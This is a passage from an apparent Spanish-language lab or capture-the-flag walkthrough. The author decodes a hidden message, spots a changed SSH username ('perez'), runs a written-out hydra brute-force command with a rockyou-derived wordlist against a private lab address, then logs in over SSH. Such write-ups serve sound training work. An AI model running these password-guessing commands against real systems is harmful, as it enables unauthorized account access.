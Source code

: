 <img src="https://github.com/xKoutax/xkoutax/blob/master/assets/Captura%20de%20pantalla%202025-03-08%20004030.png?raw=true" alt="Captura de pantalla">
<p>Desencriptamos el codigo y nos muestra un mensaje.</p>
<img src="https://github.com/xKoutax/xkoutax/blob/master/assets/Captura%20de%20pantalla%202025-03-08%20004102.png?raw=true" alt="Captura de pantalla">
<p>Hmmmm, cambio el usuairo el que nuestro cliente tenia era juan.perez y ahora solo es perez.</p>
<p>con esta informacion se me ocurre hacer un ataque de fuerza bruta.</p>
<pre><code>
   hydra -l perez -P mini_rockyou.txt ssh://192.168.100.64 -t 4
</code></pre>
<img src="https://github.com/xKoutax/xkoutax/blob/master/assets/Captura%20de%20pantalla%202025-03-08%20005404.png?raw=true" alt="Captura de pantalla">
<p>Genial.</p>
<p>tenemos las credenciales completas intentaremos acceder.</p>
<pre><code>
  ssh perez@192.168.100.64 
</code></pre>
